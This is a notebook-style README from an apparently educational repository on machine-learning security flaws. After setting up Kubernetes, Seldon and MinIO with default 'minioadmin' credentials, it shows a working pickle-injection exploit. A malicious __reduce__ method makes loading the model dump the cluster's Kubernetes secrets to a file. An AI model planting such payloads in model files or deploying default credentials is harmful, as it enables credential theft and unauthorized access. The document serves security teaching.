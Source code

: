 [![Awesome](images/awesome.svg)](https://github.com/sindresorhus/awesome)
[![Maintenance](https://img.shields.io/badge/Maintained%3F-YES-green.svg)](https://github.com/EthicalML/awesome-production-machine-learning/graphs/commit-activity)
![GitHub](https://img.shields.io/badge/Release-PROD-yellow.svg)
![GitHub](https://img.shields.io/badge/Languages-MULTI-blue.svg)
![GitHub](https://img.shields.io/badge/License-MIT-lightgrey.svg)
[![GitHub](https://img.shields.io/twitter/follow/axsaucedo.svg?label=Follow)](https://twitter.com/AxSaucedo/)

# Flawed Machine Learning Security

This Repo contains a set of resources relevant to the talk "Secure Machine Learning at Scale with MLSecOps", and provides a set of examples to showcase practical common security flaws throughout the multiple phases of the machine learning lifecycle.

## Setup

Requirements on CLIs
* kubectl
* istioctl
* mc (minio client)
* Kubernetes > 1.18
* Python 3.7

### Setup Kubernetes Cluster

#### Install and setup Istio


```python
!istioctl install -y
```


```bash
%%bash
kubectl apply -n istio-system -f - << END
apiVersion: networking.istio.io/v1alpha3
kind: Gateway
metadata:
  name: seldon-gateway
spec:
  selector:
    istio: ingressgateway # use istio default controller
  servers:
  - port:
      number: 80
      name: http
      protocol: HTTP
    hosts:
    - "*"
END
```

#### Setup Seldon Core


```bash
%%bash
kubectl create ns seldon-system
helm upgrade --install \
    seldon-core seldon-core-operator \
    --repo https://storage.googleapis.com/seldon-charts  \
    --set usageMetrics.enabled=true --namespace seldon-system \
    --set istio.enabled="true" --set istio.gateway="seldon-gateway.istio-system.svc.cluster.local" \
    --version 1.13.1
```

#### Setup & configure MinIO


```bash
%%bash
kubectl create ns minio-system
helm repo add minio https://helm.min.io/
helm install minio minio/minio \
    --set accessKey=minioadmin \
    --set secretKey=minioadmin \
    --namespace minio-system
```

    "minio" already exists with the same configuration, skipping
    NAME: minio
    LAST DEPLOYED: Sun Apr 10 13:24:52 2022
    NAMESPACE: minio-system
    STATUS: deployed
    REVISION: 1
    TEST SUITE: None
    NOTES:
    Minio can be accessed via port 9000 on the following DNS name from within your cluster:
    minio.minio-system.svc.cluster.local
    
    To access Minio from localhost, run the below commands:
    
      1. export POD_NAME=$(kubectl get pods --namespace minio-system -l "release=minio" -o jsonpath="{.items[0].metadata.name}")
    
      2. kubectl port-forward $POD_NAME 9000 --namespace minio-system
    
    Read more about port forwarding here: http://kubernetes.io/docs/user-guide/kubectl/kubectl_port-forward/
    
    You can now access Minio server on http://localhost:9000. Follow the below steps to connect to Minio server with mc client:
    
      1. Download the Minio mc client - https://docs.minio.io/docs/minio-client-quickstart-guide
    
      2. Get the ACCESS_KEY=$(kubectl get secret minio -o jsonpath="{.data.accesskey}" | base64 --decode) and the SECRET_KEY=$(kubectl get secret minio -o jsonpath="{.data.secretkey}" | base64 --decode)
    
      3. mc alias set minio-local http://localhost:9000 "$ACCESS_KEY" "$SECRET_KEY" --api s3v4
    
      4. mc ls minio-local
    
    Alternately, you can use your browser or the Minio SDK to access the server - https://docs.minio.io/categories/17


    Error from server (AlreadyExists): namespaces "minio-system" already exists


Once minio is runnning you need to open another terminal and run:
```
kubectl port-forward -n minio-system svc/minio 9000:9000
```


```python
!mc config host add minio-seldon http://localhost:9000 minioadmin minioadmin
```

    [m[32mAdded `minio-seldon` successfully.[0m
    [0m


```bash
%%bash
kubectl apply -f - << END
apiVersion: v1
kind: Secret
metadata:
  name: seldon-init-container-secret
type: Opaque
stringData:
  RCLONE_CONFIG_S3_TYPE: s3
  RCLONE_CONFIG_S3_PROVIDER: minio
  RCLONE_CONFIG_S3_ACCESS_KEY_ID: minioadmin
  RCLONE_CONFIG_S3_SECRET_ACCESS_KEY: minioadmin
  RCLONE_CONFIG_S3_ENDPOINT: http://minio.minio-system.svc.cluster.local:9000
  RCLONE_CONFIG_S3_ENV_AUTH: "false"
END
```

    secret/seldon-init-container-secret created


## Model Training

#### Install requirements for model


```python
%%writefile requirements.txt
seldon_core
scikit-learn == 0.24.2
numpy >= 1.8.2
joblib == 0.16.0
```

    Writing requirements.txt



```python
!pip install -r requirements.txt
```

#### Import datasets to train Iris model


```python
from sklearn import datasets

iris = datasets.load_iris()
X, y = iris.data, iris.target
```

#### Import simple LogsticRegression model


```python
from sklearn.linear_model import LogisticRegression

model = LogisticRegression(solver="liblinear", multi_class='ovr')
```

#### Train model with dataset


```python
model.fit(X, y)
```




    LogisticRegression(multi_class='ovr', solver='liblinear')



#### Run prediction to test model


```python
model.predict(X[:1])
```




    array([0])



#### Dump model binary with pickle


```python
import joblib

joblib.dump(model, "model.joblib")
```




    ['model.joblib']




```python
!bat model.joblib
```

## Load Pickle and Inject Malicious Code


```python
import joblib

model_safe = joblib.load("model.joblib")
```


```python
model_safe.predict(X[:1])
```




    array([0])




```python
import types, os

def __reduce__(self):
    cmd = "kubectl get secrets -o yaml > kubernetes-secrets.txt"
    return os.system, (cmd,)
```


```python
model_safe.__class__.__reduce__ = types.MethodType(__reduce__, model_safe.__class__)
```


```python
joblib.dump(model_safe, "model_unsafe.joblib")
```




    ['model_unsafe.joblib']




```python
!bat model_unsafe.joblib
```

#### Now reload the insecure pickle


```python
!ls kubernetes-secrets.txt
```

    ls: cannot access 'kubernetes-secrets.txt': No such file or directory



```python
import joblib

model_unsafe = joblib.load("model_unsafe.joblib")
```


```python
!head -4 kubernetes-secrets.txt
```

    apiVersion: v1
    items:
    - apiVersion: v1
      data:



```python

```
